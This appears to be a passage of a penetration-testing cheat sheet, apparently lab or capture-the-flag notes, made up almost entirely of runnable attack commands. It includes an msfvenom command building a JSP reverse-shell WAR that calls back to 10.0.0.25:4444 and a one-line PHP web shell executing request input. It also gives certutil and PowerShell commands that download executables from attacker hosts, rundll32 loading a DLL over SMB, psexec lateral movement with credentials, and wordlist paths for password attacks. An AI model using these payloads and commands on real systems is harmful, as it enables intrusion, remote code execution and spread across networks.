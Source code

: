 ````
#### msfvenom payloads
``` 
msfvenom -l payloads
msfvenom -p java/jsp_shell_reverse_tcp --payload-options
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.25 LPORT=4444 -f war > runme.war
```

#### Webshells
``` /usr/share/webshells/```

``` Pikachu.gif.php```

``` <? php echo system($_REQUEST['cmd']); ?>```

#### Reverse-shell One-liners
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Try first, then last (mkfifo), then 2,3,4...

```
whereis netcat
which nc
```

# Lateral movement

#### Windows Transfer
``` certutil.exe -urlcache -split -f "http://10.10.14.19/accesschk.exe" achk.exe```
``` Smbserver.py leshare . → Copy \\10.10.14.19\leshare\accesschk.exe```

https://www.abatchy.com/2017/03/powershell-download-file-one-liners

``` (new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

``` Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```


#### SMB Server
```smbserver.py leshare /var/www/html```

```
Copy \\10.10.12.84\leshare\scripts\Powerless.bat
\\10.10.12.84\leshare\exploits\Windows\MS14.exe
Rundll32.exe \\10.10.12.84\leshare\go.dll,0
```

#### Python PSExec (and more at /usr/share/impacket)
```
psexec.py user:passwd@10.10.10.152 whoami
psexec.py user:passwd@10.10.10.152 -c python <cmd>
```



# Useful file Locations
#### Webshell locations:
``` /usr/share/webshells ```

#### Password lists:
```
/usr/share/wordlists/fasttrack.txt (222) 
/usr/share/wordlists/dirb/small.txt (900)
/usr/share/wordlists/metasploit/default_pass_for_services_unhash.txt (1244)
/usr/share/seclists/Passwords/probable-v2-top (207-12000)
/usr/share/wordlists/dirb/common.txt (4614)
/usr/share/wordlists/nmap.lst (5084)

````
